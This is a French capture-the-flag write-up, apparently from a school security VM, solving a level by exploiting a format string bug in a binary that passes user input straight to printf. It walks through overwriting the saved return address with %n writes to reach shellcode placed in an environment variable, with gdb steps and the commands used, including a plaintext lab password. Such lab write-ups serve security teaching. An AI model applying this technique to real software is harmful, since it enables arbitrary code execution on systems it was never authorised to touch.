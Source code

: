# Level 05

Lorsqu'on exécute le binaire, un input est attendu sur l'entrée standard. Il est ensuite réaffiché sur la sortie standard. Si des majuscules sont entrées, elles sont mises en minuscule.

On peut réécrire un code source en C à partir du code asm du binaire :

```c
int main(int argc, const char **argv)
{
	char buffer[100]; // esp+0x28
	int i;			  // esp+0x8c

	i = 0;
	fgets(buffer, 100, stdin);

	int i = 0;
	while (i < strlen(buffer)) // not really a call to strlen function
	{
		if (buffer[i] >= 'A' && buffer[i] <= 'Z')
			buffer[i] = buffer[i] - 'A' + 'a'; // buffer[i] ^ 0x20
		i++;
	}
	printf(buffer);
	exit(0);
}
```

On voit rapidement qu'on peut utiliser une **format string attack** puique la fonction **printf** est appelée avec comme 1er argument le buffer dans lequel on écrit.

Grâce au specifier `%n` on va pouvoir écrire dans la mémoire. On peut donc écraser l'**eip sauvegardé** de la fonction **printf** pour pouvoir jump à un endroit où on aura insérer un shellcode.

On ne peut pas vraiment insérer notre shellcode dans le buffer puisque, tous les octets compris entre 'A' et 'Z' seront modifiés. Cependant, on peut introduire notre shellcode dans une variable d'environnement.

Notre but est donc d'écraser l'**eip sauvegardé** de la fonction **printf** par l'adresse de la variable d'environnement qui contient notre shellcode.

Il nous faut trouver ces deux adresses. On commence par introduire notre shellcode dans la variable d'environnemment `SCRIPT` :

```bash
export SCRIPT="$(cat /tmp/args/env_var)"
```

Ensuite dans gdb on place un breakpoint au niveau de la fonction _printf_, puis on rentre dans la fonction pour récupérer l'**eip sauvergardé** :

```gdb
b *0x8048507
r
*on écrit ce qu'on veut pour l'entrée standard*
si
i f
```

Avec la commande `i f` (info frame), on peut lire sur la dernière ligne la valeur de l'adresse.

Pour récupérer l'adresse de notre variable d'environnement `SCRIPT` on peut faire comme-ci dessous avec gdb peda :

```gdb
b main
r
find "SCRIPT"
```

Maintenant que nous avons nos deux adresses il faut construire notre _format string_.

En utilisant cette commande :

```bash
$ echo "aaaaaaaaaaaaaaaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
aaaaaaaaaaaaaaaaa 64 f7fcfac0 0 0 0 0 ffffffff ffffd4e4 f7fdb000 61616161 61616161 61616161 61616161 78252061
```

On se rend compte que notre début de string est écrit dans la stack qu'à partir du dixième argument. On peut donc utiliser la format string suivante : `ADDR %WIDTHx %10$n`, avec _ADDR_ qui correspond à l'adresse où l'on veut écrire donc l'**eip sauvegardé** et _WIDTH_ l'adresse (en décimal) où se situe notre shellcode.

Cependant l'adresse où se sitre notre shellcode, étant assez grande, la _width_ est trop grande et pas prise en compte. Même en ayant 4 arguments de valeur _width_ divisé par 4, cela ne marche pas.

Pour palier à ce problème, on va écrire les 2 octets les plus bas de notre adresse à l'**eip sauvegardé** et les 2 octets les plus haut à l'**eip sauvegardé + 2**. On obtient donc : `ADDR ADDR+2 %WIDTH1x %10$n %WIDTH2x %11$n`. Voir Ressources/generator.cpp.

## Commandes

Depuis l'hôte :

```bash
make && ./generator && sshpass -p '3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN' scp -P 4242 -r args level05@localhost:/tmp/
```

Sur la vm :

```bash
export SCRIPT="$(cat /tmp/args/env_var)"
./level05 < /tmp/args/arg
```

## Sources

- https://resources.infosecinstitute.com/topic/exploiting-format-strings-getting-the-shell/
